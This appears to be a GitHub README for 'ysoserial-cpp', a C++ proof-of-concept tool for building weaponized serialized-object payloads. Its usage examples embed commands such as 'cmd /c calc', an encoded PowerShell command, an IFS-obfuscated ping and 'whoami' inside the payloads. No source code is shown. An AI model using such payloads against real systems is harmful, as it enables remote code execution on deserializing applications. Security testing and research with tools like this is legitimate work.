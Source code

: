# ysoserial-cpp


```
      .                                                                    
  .x88888x.          JennyLab Research!                            ..         
 :8**888888X.  :>               u.    u.      u.    u.    @L                  
 f    `888888x./       .u     x@88k u@88c.  x@88k u@88c. 9888i   .dL    
'       `*88888~    ud8888.  ^"8888""8888" ^"8888""8888" `Y888k:*888.  
 \.    .  `?)X.   :888'8888.   8888  888R    8888  888R    888E  888I  
  `~=-^   X88> ~  d888 '88%"   8888  888R    8888  888R    888E  888I   
         X8888  ~ 8888.+"      8888  888R    8888  888R    888E  888I    
         488888   8888L        8888  888R    8888  888R    888E  888I 
 .xx.     88888X  '8888c. .+  "*88*" 8888"  "*88*" 8888"  x888N><888'  
'*8888.   '88888>  "88888%      ""   'Y"      ""   'Y"     "88"  888       
  88888    '8888>    "YP'                                        88F             
  `8888>    `888            @h0ffy                               98"                                          
   "8888     8%                2025                             ./"                                            
    `"888x:-"                                                ~`                                            

```

![image](https://github.com/user-attachments/assets/da6827fc-b24f-4b6d-8faa-fc99d5a233e5)




## ysoserial-cpp ( PoC )
Implementation of object serializations an weaponizing in cpp similar functionalitity ( a lost day... than yoserial )

GNU GPL3 License ( JennyLab OpenSource )
    

### Build

```
g++ -std=c++17 -O2 -o ysoserial-cpp ysoserial.cpp
```


### Payload inject execution commands abusing serialization

```
./ysoserial-cpp templates "cmd /c calc"
```

### Encoding

```
./ysoserial-cpp object1 "powershell -enc <base64_command>"
```
        
### Obfucation 

```
./ysoserial-cpp object2 "p\${IFS}ing\${IFS}8.8.8.8"
```
        
### Inyecting ENV

```
./ysoserial-cpp templates "\$SHELL -c 'whoami'"
```




## Code "ysoserial-cpp.cpp"
```
  ysoserial.cpp   # ysoserial-cpp
  ├── JavaSerialization   # Constants and types
  ├── JavaPayloadGen # Main class to make and object in C++ to serialize this serialization with provide and destination in seralize... Seria... Lize!!!
```                                                           
